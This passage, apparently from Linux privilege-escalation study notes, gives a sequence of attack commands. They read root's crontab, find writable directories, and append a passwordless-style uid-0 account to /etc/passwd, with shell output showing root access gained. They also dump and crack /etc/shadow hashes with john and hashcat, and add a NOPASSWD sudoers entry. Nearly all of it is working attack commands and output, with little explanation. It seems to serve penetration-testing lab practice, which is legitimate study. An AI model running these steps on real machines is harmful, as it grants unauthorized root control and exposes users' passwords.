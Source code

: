 ```shell
cat /var/spool/cron/crontabs/root
```





#### 9. Files with Insecure Permission

1. writable directories

   ```
   find / -writable -type d 2>/dev/null
   ```

2. if have write access for `/etc/passwd`

   ```shell
   joe@debian-privesc:~$ openssl passwd w00t
   Fdzt.eqJQ4s0g
   
   joe@debian-privesc:~$ echo "root2:Fdzt.eqJQ4s0g:0:0:root:/root:/bin/bash" >> /etc/passwd
   
   joe@debian-privesc:~$ su root2
   Password: w00t
   
   root@debian-privesc:/home/joe# id
   uid=0(root) gid=0(root) groups=0(root)
   ```

   

3. if have read access for`/etc/shadow` - bruteforce hash

   ```shell
   unshadow /etc/passwd /etc/shadow > output.db
   
   # look for the encryption method
   grep ENCRYPT_METHOD /etc/login.defs
   
   john output.db
   john -w /path/to/wordlist — format=md5crypt hashes
       $1 = MD5 hashing algorithm.
       $2 =Blowfish Algorithm is in use.
       $2a=eksblowfish Algorithm
       $5 =SHA-256 Algorithm
       $6 =SHA-512 Algorithm
      
   hashcat -m 1800 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
   ```

   

4. if we have modified `/etc/sudoers`

   - add `haris ALL=(ALL) NOPASSWD:ALL` 
   - `sudo -i`

   
